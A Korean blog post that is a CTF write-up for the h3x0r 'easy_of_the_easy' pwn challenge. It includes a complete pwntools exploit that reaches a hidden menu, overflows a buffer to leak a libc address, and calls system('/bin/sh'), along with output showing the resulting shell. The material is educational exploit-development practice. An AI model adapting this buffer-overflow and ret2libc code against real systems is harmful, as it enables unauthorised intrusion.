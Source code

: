 ```yaml
---
layout: post
title: \[h3x0r CTF\] easy_of_the_easy (pwn 300)
excerpt_separator: <!--more-->
tags:
  - CTF
  - Write-up
---
```


학기중에는 바빠서 H3x0r CTF에 참가하지 못했다. 그래서 종강한 뒤 여유가 생겨서 문제를 몇 개 풀어보고자 했다. 그런데 너무 오랫동안 포너블 문제를 풀지 않아서인가 계속 버벅대기에, 생각도 정리하고 나중에 참고할 수 있도록 블로그에 포스팅을 올리기로 결심하였다.

<!--more-->

> nc 49.236.136.140 14000
> [Download](https://h3x0r.kr/uploads/8/easy_of_the_easy)
>
> -Ho_9

문제가 매우 심플하다. 바이너리만 하나 던져준다.

> \#file easy_of_the_easy
>
> easy_of_the_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=943b5012ebc31246a545435ea3a4336795a9bb8d, not stripped

확인해보면 32bit 바이너리인걸 알 수 있다.

분석해보면 단순한 계산기 프로그램이고, 일정 조건을 만족하면 special menu를 열어주어 BOF 취약점을 트리거할 수 있게 되어있다. canary도 안 걸려있다. (걸려있어도 해결 가능할 것 같긴 하지만) 문제 자체가 포너블의 sanity check 개념인듯 하다. wrtie, read함수가 보이니까 대충 BOF로 주소 leak 해서 쉘 따면 된다.

```python
from pwn import *

PROCESS = "./easy_of_the_easy"

First_gate_addr = 0x08048801
special_menu_addr = 0x080487a0
write_plt = 0x08048452
read_got = 0x0804a00c

r = process(PROCESS)

def main () :
	global system_addr
	global binsh_addr

	make_nbytes()
	r.recvuntil("Good Luck!")
	bof()

	data = r.recvline().strip()
	system_addr = u32(data) - 0x9ad60
	binsh_addr = system_addr + 0x120c6b

	log.info(hex(system_addr))
	log.info(hex(binsh_addr))
	
	givemeshell()

	r.interactive()

def make_nbytes() :
	r.sendline("1 245686 1")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("1 1 0")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("6")
	r.recvuntil("Menu")
	r.sendline("4 1 1") # go to hidden menu

def bof() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(write_plt)
	payload += p32(special_menu_addr)
	payload += p32(0x01)
	payload += p32(read_got)
	# payload += p32(0x08048b48) # good
	payload += p32(0x04)
	r.sendline(payload)

def givemeshell() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(system_addr)
	payload += "C"*4
	payload += p32(binsh_addr)
	payload += "D"*20
	r.sendline(payload)

if __name__ == '__main__' :
	main ()
```

> root@ubuntu:~/CTF/h3x0r/easy_of_the_easy\# python local_exploit.py 
> [\+] Starting local process './easy_of_the_easy': pid 5203
> [\*] 0xf7d72da0
> [\*] 0xf7e93a0b
>
> [\*] Switching to interactive mode
>
> ​            Secret           Way          
>
> ==========================================
>
> Good Luck!$ ls
> easy_of_the_easy  local_exploit.py
> $ 



bof 해줄때 32bit 오랜만이라 그런가.. write 함수 다음에 +@ ret 적어주는걸 까먹어서 이상한 오류가 뿜뿜!! 했다. 다음부터는 주의해야지.
